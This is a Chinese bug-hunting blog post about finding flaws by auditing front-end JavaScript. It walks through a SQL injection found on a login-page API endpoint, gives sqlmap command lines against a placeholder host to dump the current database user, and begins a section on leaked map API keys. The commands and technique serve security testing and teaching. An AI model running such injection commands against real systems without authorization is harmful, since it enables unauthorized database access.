 #  仅靠JS审计就能捡到的漏洞 前端代码中的隐藏利用点|挖洞技巧  
bcloud  渗透安全HackTwo   2025-06-08 16:01  
  
**0x01 前言**  
   
  
       前端JS源码往往隐藏着未授权接口、敏感信息泄露等漏洞。本文结合实际案例，系统讲解如何通过审计JS文件挖掘高价值漏洞，从SQL注入到地图Key泄露，再到文件下载，探索手工渗透的魅力与技巧。  
  
参考文章：  
https://xz.aliyun.com/news/16886  
  
现在只对常读和星标的公众号才展示大图推送，建议大家把**渗透安全HackTwo“设为星标”，否则可能就看不到了啦！**  
  
**末尾可领取挖洞资料文件 #渗透安全HackTwo**  
  
**0x02 漏洞详情**  
  
当拿到网站，但是又不知道密码，目录扫描也扫不出有效的信息时，我们可以从前端JS源码入手，找找是否有可以利用的点，或者未授权的接口从而一步一步扩大危害，拿到系统源码或者用户信息等。  
# SQL注入  
  
登录框开局必出货  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5cU4xu8nmQaZOjXovKYhmsObhRJUQIBkb1axtufic0niaJN8KIRKIFsI5TOsgMuvv5Z5f22jzzKK1A/640?wx_fmt=png "")  
  
  
查看前端源码，发现Identity_Get接口，且存在userid和researchid参数![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5cU4xu8nmQaZOjXovKYhms2qlwCIV2PhT1mNmkeYahRXqeuiaWeLhibEe34Uk26oYAGicwFzcIDb1FA/640?wx_fmt=png "")  
  
访问该接口抓包，使用burp进行测试，通过单引号重放发生报错![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5cU4xu8nmQaZOjXovKYhmsC8fJ6NKctYKB7AHmA542QwW5hsYYz0raleGic8iaeTEz9HgRE8jhwfoA/640?wx_fmt=png "")  
  
  
SQLMAP直接一键梭哈命令  
  
```
python sqlmap.py -u "http://ip/Api/xxx/xxx/xxx/Identity_Get?USERID=1&RESEARCHID=1" --batch --risk 3
```  
  
  
Oracle数据库  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5cU4xu8nmQaZOjXovKYhms4cAO4MHas5x0s83ezNrwXNohWyM6UxCbyXw5ib4gAgDFgTlmG6rZPDw/640?wx_fmt=png "")  
  
查询当前数据库用户  
```
python sqlmap.py -u "http://ip/Api/xxx/xxx/xxx/Identity_Get?USERID=1&RESEARCHID=1" --batch --risk 3 --current-user
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5cU4xu8nmQaZOjXovKYhmsyObFFvricQUB6SpqIuAIY7yFhOgdyxk0waP0eicGiaWhgr9zpIeNiamNbw/640?wx_fmt=png "")  
# 地图key泄露  
  
这个KEY泄露虽然很常见，能够直接被API接口调用  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5cU4xu8nmQaZOjXovKYhmsH9UO2UMVib50KdYVqMqqkHsrCfTU1BSmF7Kwf2XiaicKYRTdsTKRkaEug/640?wx_fmt=png "")  
  